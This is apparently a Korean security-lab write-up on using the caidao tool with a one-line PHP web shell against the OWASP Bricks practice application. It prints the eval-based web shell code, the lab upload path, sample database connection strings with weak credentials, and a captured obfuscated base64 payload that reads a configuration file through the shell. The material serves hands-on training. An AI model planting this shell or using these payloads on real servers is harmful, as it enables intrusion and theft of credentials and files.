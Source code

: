       사용자 정의    :
      <T>유형</T>                <--- XDB 만 기재
      <X>사용자가 정의한 구성 정보</X> <--- Customize.jsp 와 같이 데이터베이스 매개 변수 작성 (두 줄)
      MSSQL          :
              <X>
              com.microsoft.sqlserver.jdbc.SQLServerDriver
              jdbc:sqlserver://127.0.0.1:1433;databaseName=test;user=sa;password=123456
              </X>
        MYSQL          :
              <X>
              com.mysql.jdbc.Driver
              jdbc:mysql://localhost/test?user=root&password=123456
              </X>
        ORACLE         :
              <X>
              oracle.jdbc.driver.OracleDriver
              jdbc:oracle:thin:user/password@127.0.0.1:1521/test
              </X>

## ( 5 ) caidao 툴을 이용한 One Line WebShell 실습

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/3b4ff41c-ebe6-4179-84a1-0eb1d8e76312)

< 웹쉘 파일 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/ece70bee-567d-42d9-9dd3-f5f4659fb90a)

< 웹쉘 업로드 >


owaspbwa 의 OWASP Bricks 웹 어플리케이션(PHP + MySQL + Linux)에서 실습함.
웹쉘 코드 : <?php @eval($_POST['koromoon']);?>
웹쉘 업로드 링크 : http://192.168.100.133/owaspbricks/upload-1/uploads/webshell.php



1. DB 정보 관련 파일 다운로드 (LocalSettings.php)
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/05664bdb-1aa9-4e8c-af46-65938eea79e7)

< caidao 툴에서 LocalSettings.php 파일 다운로드 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/17f8361d-4906-4703-80cb-f514066c403c)

< LocalSettings.php 파일 다운로드 시 패킷덤프 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/30dc7418-8c69-4586-ac57-4aa0667fb650)

< LocalSettings.php 파일 내용 >



      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JEY9Ii9vd2FzcGJ3YS9vd2FzcGJyaWNrcy1zdm4vTG9jYWxTZXR0aW5
      ncy5waHAiOyRmcD1AZm9wZW4oJEYsJ3InKTtpZihAZmdldGMoJGZwKSl7QGZjbG9zZSgkZnApO0ByZW
      FkZmlsZSgkRik7fWVsc2V7ZWNobygnRVJST1I6Ly8gQ2FuIE5vdCBSZWFkJyk7fTtlY2hvKCJYQFkiK
      TtkaWUoKTs%3D'));\");"));


[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"